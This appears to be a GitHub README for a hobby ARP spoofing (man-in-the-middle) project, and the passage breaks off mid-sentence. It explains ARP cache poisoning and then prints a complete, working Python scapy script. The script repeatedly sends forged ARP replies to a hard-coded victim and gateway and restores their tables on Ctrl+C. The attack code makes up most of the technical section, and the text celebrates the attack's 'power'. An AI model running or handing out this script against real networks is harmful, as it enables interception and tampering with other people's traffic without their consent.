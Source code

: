 # How to check if your router tries to protect you

**ARP Spoofing** also known as Man in the Middle is simple but powerful attack. It exploits the vulnerabilites of ARP (Address Resolution Protocol)

-------------------------------------------------------------------------------

## How ARP Spoofing Works

Normally these are how the computers in a network communicate (this works for ethernet switches).  

![Load](https://documentation.meraki.com/@api/deki/files/5903/Screen_Shot_2017-12-03_at_8.09.11_PM.png?revision=1&size=bestfit&width=622&height=242)

The victim (who is not the victim yet) sends an ARP broadcast to ask what are the MAC addresses of the machines with the given IP. For example, the ARP request asks who 10.10.10.20 is, the router has that IP and the router sends its MAC address to the machine that asked. The machine will then update its table so whenever it needs to send something to 10.10.10.20, it will send it to the MAC address that was given. You may now see what the vulnerability is. I could send a message to the victim saying that I'm 10.10.10.20 but give it **MY** MAC address. Now when it needs to send something to 10.10.10.20, it will send the requests to my MAC address. *The **power** feels great!*

![Get rekt](https://miro.medium.com/max/4800/1*Nz1e4AfW6HGcgXde_eIwUg.jpeg)

-------------------------------------------------------------------------------

## How the Code Works

Remember, we need to tell the victim that we're the router, so we'll create a packet doing just that. I should also say I used the library scapy.
```python
def spoof(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed, verbose= False)
```
What this does is create a packet with packet destination (pdst) of the target, this tells them this packet was especially made for them, packet source (psrc) of the router so it looks like it's coming from them, and hwdst (hardware destination) is to send it to the right person. This packet will have a hwsrc (hardware source) of our IP so they associate our MAC address with the router's IP. 
```python
def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet, verbose=False)
    print("ARP Table restored to normal for", targetip)
```
The code above is to reverse previous actions, telling the victim that the IP of router should be associated with the MAC of the router. You literally have to reverse it, showing the **power** of the attack. 
```python
def main():
    targetip = "192.168.0.24"
    gatewayip = "192.168.0.1"
    targetmac = "a4:5e:60:b9:d6:ab"
    gatewaymac = "9c:c9:eb:c9:1a:1a"

    try:
        print("Sending spoofed ARP responses")
        #restorearp(gatewayip, gatewaymac, targetip, targetmac)
        #restorearp(targetip, targetmac, gatewayip, gatewaymac)
        while True:
            spoof(targetip, targetmac, gatewayip)
            spoof(gatewayip, gatewaymac, targetip)
    except KeyboardInterrupt:
        print("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
``` 
Here I specify the IP addresses and MAC addresses. You could automate this part, but if you have something like nmap or a network scanner (you can code this as well) you can find the addresses and manual code them in. Then we send the packets, we have to do this repeatedly so the victim thinks we're the router. If you want to turn it off, you can use Ctrl+C and it'll revert it. 

-------------------------------------------------------------------------------

## Why it may not work for you

I wasn't initially planning on making this section, but we got a new router and the spoofer doesn't wor anymore. This is actually a good thing, but not for this project. I started doing research to figure out what happened,

![Literally Me](https://pbs.twimg.com/media/EIzT11bU8AAgvlM.jpg)

I was enlightened with the knowledge of this random stackoverflow dude

>The spoof should work almost immediately if it is working properly. New devices will see the gratuitous arp from the attacker and automatically update their >cache. A victim will not detect duplicate IP, they should just update the mapping. The problem is likely at the router.
>
>Arpspoof works through a switch because the switch has no way of knowing which port the legitimate IP address/MAC mapping is, so without any form of port >security/DHCP snooping/Dynamic arp inspection, it has to trust that a device is who it says it is when it claims "192.168.1.1 is at aa:bb:cc:dd:ee:aa" in its >arp reply/gratuitous arp.
>                                                                                                                      ~Some dude on Stack Overflow

What this basically says is...
